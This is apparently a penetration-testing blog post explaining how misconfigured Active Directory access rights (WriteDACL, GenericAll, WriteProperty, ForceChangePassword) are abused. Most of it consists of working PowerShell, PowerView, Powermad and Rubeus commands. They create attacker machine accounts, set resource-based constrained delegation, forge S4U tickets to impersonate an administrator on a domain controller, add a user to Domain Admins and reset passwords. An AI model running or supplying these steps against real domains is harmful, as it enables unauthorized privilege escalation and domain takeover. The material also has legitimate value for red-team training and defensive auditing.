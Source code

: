 ```yaml
---
title: 'Abusing AD Access Controls'
date: '2019-01-15'
layout: post
tag: [AD, Access Controls]
excerpt: >-
  ACE and ACL abuse
description: >-
  ACE and ACL abuse
image: '/images/posts/abusing-ace/abusing-acl.png'
thumb_image: '/images/posts/abusing-ace/abusing-acl.png'
---
```


# Introduction

Access privileges for resources in Active Directory Domain Services are usually granted through the use of an Access Control Entry (ACE). 

Access Control List entries describe the allowed and denied permissions for a principal in Active Directory against a securable object (user, group, computer, container, organization unit (OU), GPO etc..) DACLs (Active Directory Discretionary Access Control Lists) are lists made of ACEs (Access Control Entries) that identify the users and groups that are allowed or denied access to an object. When we have misconfigured, ACEs can be abused to operate lateral movement or privilege escalation within an AD domain. 

An example of ACEs for the “Domain Admins” securable object can be seen here:

![](/images/posts/abusing-ace/abusing-active-directory-aclace.png)

Active Directory offers a variety of permission types to set up an ACE.  
From an attacker’s point of view, the following permission types are particularly interesting:

- **WriteDACL** – modify the object’s ACEs and give an attacker complete control right over the object 
- **GenericAll** – full rights to the object (add users to a group or reset user’s password) 
- **GenericWrite** – update object’s attributes (i.e. logon script) 
- **WriteOwner** – change object owner to attacker controlled user to take over the object 
- **AllExtendedRights** – the ability to add a user to a group or reset a password 
- **ForceChangePassword** – the ability to change the user’s password 

## WriteDacl

The writeDACL permissions allow an identity to fully control rights over the designated object. 
This means they can modify access control lists (ACL) to gain higher privileges, like becoming a domain administrator or gaining specific user rights.

It’s important to be aware of the risks, especially if someone can modify the ACL of an Active Directory (AD) object and assign permissions that allow them to read and write specific attributes, such as changing an account name or resetting a password.

Abusing writeDACL to a computer object can be used to gain the GenericAll privilege. 
It’s crucial to authenticate to the Domain Controller when running a process as a user without writeDACL rights.

Additionally, using the Powerview module Add-DomainObjectAcl requires creating a PSCredential object first.

```powershell
SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential('first.local\\admin.user', $SecPassword) 
Add-DomainObjectAcl -Credential $Cred -TargetIdentity FIRST-DC  -PrincipalIdentity writedacldc.user -Rights All
```

![](/images/posts/abusing-ace/Pasted-image-20231211174126.png)

Once we have granted this privilege, we can execute a resource based constrained delegation attack. 
First, if an attacker does not control an account with an SPN set, 
Powermad can be used to add a new attacker-controlled computer account: 

```powershell
New-MachineAccount -MachineAccount attacker system -Password $(ConvertTo-SecureString 'Password@1' -AsPlainText -Force)
```

![](/images/posts/abusing-ace/Pasted-image-20231211174134.png)

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer attacker system -Properties objectsid | Select -Expand objectsid
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes}
```

We can then use Rubeus to hash the plaintext password into its RC4_HMAC form 

```powershell
Rubeus.exe hash /password:Password@1
```

![](/images/posts/abusing-ace/rubeus-exe-hash.png)

And the _s4u_ module to get a service ticket for the service name we want to pretend to be an admin for. 
This ticket is injected into memory and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:attackersystem$ /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt
```

![](/images/posts/abusing-ace/rubeus-exe-hash-1.png)

![](/images/posts/abusing-ace/rubeus-exe-hash_.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u.png)

## GenericAll

The GenericAll permission provides write access to all properties (add users to a group or reset the user’s password).
 _The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object._ 

Example: If the attacker has GenericAll over any target, then he doesn’t have to know the target user’s password. 
He can execute a force password reset using **Set-DomainUserPassword** to a known value.

Using powerview, we will check if our user has GenericAll rights on the Domain Controller (First-DC) 

```powershell
Get-ObjectAcl -SamAccountName first-dc | ?{$_.ActiveDirectoryRights -eq "GenericAll"} 
```

![](/images/posts/abusing-ace/get-objectacl-samaccountname-first-dc.png)

We can see that our user has the GenericAllrights, effectively enabling the user to take over the DC: 
Generic write to a computer object can be used to perform a resource based constrained delegation attack. 
We will use Powermad to add a new attacker-controlled computer account 

```powershell
New-MachineAccount -MachineAccount genallcomp -Password $(ConvertTo-SecureString 'Password!' -AsPlainText -Force)
```

PowerView can be used to retrieve then the security identifier (SID) of the newly created computer account: 

```powershell
$ComputerSid = Get-DomainComputer genallcomp -Properties objectsid | Select -Expand objectsid 
```

We now need to build a generic ACE with the attacker-added computer SID as the principal, and get the binary bytes for the new DACL/ACE: 

```powershell
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength) 
$SD.GetBinaryForm($SDBytes, 0)
```

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case: 

```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes} 

Rubeus.exe hash /password:Password!
```

![](/images/posts/abusing-ace/rubeus-exe-hash-password.png)

Finally, we can use Rubeus’ _s4u_ module to get a service ticket for the service name we want to “pretend” to be “admin” for. 
This ticket is injected in memory, and in this case grants us access to the file system of the FIRST-DC: 

```powershell
Rubeus.exe s4u /user:genallcomp$ /rc4:FBDCD5041C96DDBD82224270B57F11FC /impersonateuser:admin /msdsspn:cifs/FIRST-DC.first.local /ptt 
```

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp.png)

![](/images/posts/abusing-ace/rubeus-exe-s4u-user-genallcomp_.png)

![](/images/posts/abusing-ace/genericwrite.png)


GenericAll / GenericWrite / Write on Computer 

If you have rights you can perform a resource based constrained delegation 

## WriteProperty (Self-Membership)

If our user has WriteProperty right on All objects for the Domain Admin group: 

We can again add ourselves to the Domain Admins group and escalate privileges: 

```powershell
net user gpowrite.user /domain; Add-NetGroupUser -UserName gpowrite.user -GroupName "domain admins" -Domain "first.local"; net user gpowrite.user /domain 
```

![](/images/posts/abusing-ace/gpowrite-user.png)


## ForceChangePassword

If we have ExtendedRight on User-Force-Change-Password object type, we can reset the user’s password without knowing their current password: 

Using PowerView: 

```powershell
Set-DomainUserPassword -Identity gpowrite.user -Verbose 
```

![](/images/posts/abusing-ace/forcechangepassword.png)
